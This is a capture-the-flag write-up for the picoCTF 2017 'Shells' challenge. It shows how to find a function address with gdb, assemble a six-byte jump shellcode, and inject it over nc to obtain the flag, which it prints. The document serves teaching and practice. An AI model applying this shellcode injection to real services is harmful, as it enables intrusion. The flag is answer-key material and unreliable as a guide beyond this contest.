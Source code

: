 # Shells
## level 2 - binary exploitation - 70 points

### Description
> How much can a couple bytes do? Use [shells](./data/shells)! [Source](./data/shells.c). Connect on shell2017.picoctf.com:17533.

### Hints
> * Read about basic shellcode
> * You don't need a full shell (yet...), just enough to get the flag

### Description

Like the [previous challenge](../shellz) we can inject some shellcode to perform arbitrary actions, but this time the byte constraint is stricter: only 10 bytes. The other difference is the `win` function, now uncommented and so compiled. So the plan is:

* Search for `win` function address
* Assemble shellcode to jump to `win` function
* Inject shellcode with Python

To retrieve `win` function address I used `gdb`:

```
$ gdb shells
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.3) 7.7.1
...
Reading symbols from shells...(no debugging symbols found)...done.
(gdb) print win
$1 = {<text variable, no debug info>} 0x8048540 <win>
```

So, `win` function address is `0x8048540`. Now we have to craft the shellcode: the assembly code to go to `win` function is this:

```asm
push 0x8048540
ret
```

We can use an [online assembler](https://defuse.ca/online-x86-assembler.htm) to get the bytes or use `nasm` to assemble locally: write in a `.s` file the source of ASM code to assembly and run `nasm`, then retrieve the shellcode with `objdump`:

```
$ nasm -f elf shells.o
$ objdump -d shells.o

shells.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   68 40 85 04 08          push   $0x8048540
   5:   c3                      ret
```

So the shellcode is `\x68\x40\x85\x04\x08\xc3`, now we can use Python like previous challenge to submit and get the flag:

```
$ (python -c 'print "\x68\x40\x85\x04\x08\xc3"'; cat -) | nc shell2017.picoctf.com 17533
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
4350d27b024f8597f10b98f164f0fc43
```

### Flag
```
4350d27b024f8597f10b98f164f0fc43
```